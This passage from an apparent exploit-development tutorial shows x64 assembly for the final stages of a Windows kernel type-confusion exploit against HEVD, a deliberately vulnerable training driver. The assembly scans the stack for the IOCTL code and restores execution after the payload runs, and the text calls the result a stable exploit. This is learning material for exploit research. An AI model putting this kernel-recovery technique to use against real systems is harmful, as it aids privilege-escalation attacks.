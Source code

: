 Stage 3 & 4 looks like that:
```nasm
	pop rax ; Get stack limit from fake stack
	
    ; Start searching for the Control Code
	sub rax, 0x1000

ctl_code_loop:
	add rax, 8
	mov rcx, [rax]
	cmp rcx, 0x222023 ; TypeConfusion IOCTL
	jnz ctl_code_loop
	
	; Found the control code (otherwise, the read from rax will cause a page fault and crash)
	sub rax, 0xb8
	
	; Fix rsp, copy the function's epilogue 
	mov rsp, rax
	xor rax, rax
	add rsp, 0x20
	pop rbx
	retn
```

How to find the correct offset from the IOCTL is [explained here](https://kristal-g.github.io/2021/02/07/HEVD_StackOverflowGS_Windows_10_RS5_x64.html#:~:text=Step%202%20can%20be%20done%20through).
  
<br/>

## Putting it all together
Combining everything here creates a pretty stable exploit:
![](/assets/images/type_conf/type_confusion_yay_run.jpg)
  